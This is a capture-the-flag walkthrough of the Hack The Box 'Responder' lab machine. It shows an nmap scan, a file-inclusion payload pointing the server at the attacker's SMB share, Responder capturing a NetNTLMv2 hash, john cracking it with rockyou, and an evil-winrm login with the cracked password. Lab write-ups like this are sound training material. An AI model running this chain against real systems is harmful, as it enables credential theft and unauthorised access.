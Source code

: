 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** dotguy  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -sC -sV -Pn -p- 10.129.X.X
```

![nmap result](./writeup-images/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

Visited the site: **Unika**

![Unika site](./writeup-images/unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./writeup-images/string input.png)

Tested for LFI using:

```http
\\10.10.14.X\share
```

![LFI string input](./writeup-images/lfi string input result.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./writeup-images/responder initiation.png)

Then configured the parameter to call our malicious SMB path:

![Setting page param](./writeup-images/setting page parameter.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./writeup-images/NetNTLMv for admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracked password: **badminton**

![Password cracked](./writeup-images/password_badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.X.X -u admin -p badminton
```

![Evil-WinRM shell](./writeup-images/Evil-Winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./writeup-images/dir flag.txt.png)  
![Flag content](./writeup-images/flag founded.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI  
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM  
- Burp Suite  
- Browser

---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---

**🔗 Connect with me on LinkedIn & check more writeups:**  
[github.com/yourusername](https://github.com/yourusername)
